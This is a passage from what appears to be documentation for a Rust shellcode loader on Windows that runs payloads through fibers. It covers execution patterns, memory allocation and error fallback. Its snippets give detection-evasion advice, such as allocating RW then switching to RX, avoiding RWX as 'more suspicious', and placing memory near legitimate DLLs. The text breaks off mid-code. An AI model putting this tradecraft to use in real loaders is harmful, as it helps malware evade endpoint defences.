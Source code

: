 ### Execution Flow Configuration
Different execution patterns can be configured:
1. **One-way Execution**: Shellcode fiber never returns control
   ```rust
   SwitchToFiber(shellcode_fiber);
   // Code below never executes if shellcode doesn't return
   ```
2. **Cooperative Execution**: Shellcode returns control to main fiber
   ```rust
   // In shellcode:
   SwitchToFiber(main_fiber);
   // In main code:
   SwitchToFiber(shellcode_fiber);
   // Code here executes after shellcode switches back
   ```
3. **Multi-fiber Execution**: Chain multiple fibers
   ```rust
   SwitchToFiber(fiber1);
   // In fiber1:
   SwitchToFiber(fiber2);
   // In fiber2:
   SwitchToFiber(main_fiber);
   ```

## Memory Configuration
### Memory Protection Settings
```rust
// Recommended: Allocate as RW, then change to RX
VirtualAlloc(null_mut(), size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
VirtualProtect(buffer, size, PAGE_EXECUTE_READ, &mut old_protect);
// Alternative: Direct RWX allocation (more suspicious)
VirtualAlloc(null_mut(), size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### Memory Location Strategies
1. **Default Allocation**: System chooses address
   ```rust
   VirtualAlloc(null_mut(), size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   ```
2. **Specific Address Range**: Request specific memory region
   ```rust
   // Try to allocate near a legitimate DLL
   VirtualAlloc(preferred_address, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
   ```
3. **Heap Allocation**: Use heap for initial allocation (looks more legitimate)
   ```rust
   let heap = GetProcessHeap();
   HeapAlloc(heap, 0, size);
   ```

## Error Handling Configuration
### Error Recovery Strategies
Configure how the system handles errors:
1. **Fail Fast**: Exit on first error
   ```rust
   if fiber.is_null() {
       return Err("Fiber creation failed".into());
   }
   ```
2. **Fallback Chain**: Try multiple methods
   ```rust
   match execute_via_fiber_hollowing(code_data) {
       Ok(_) => return Ok(()),
   ```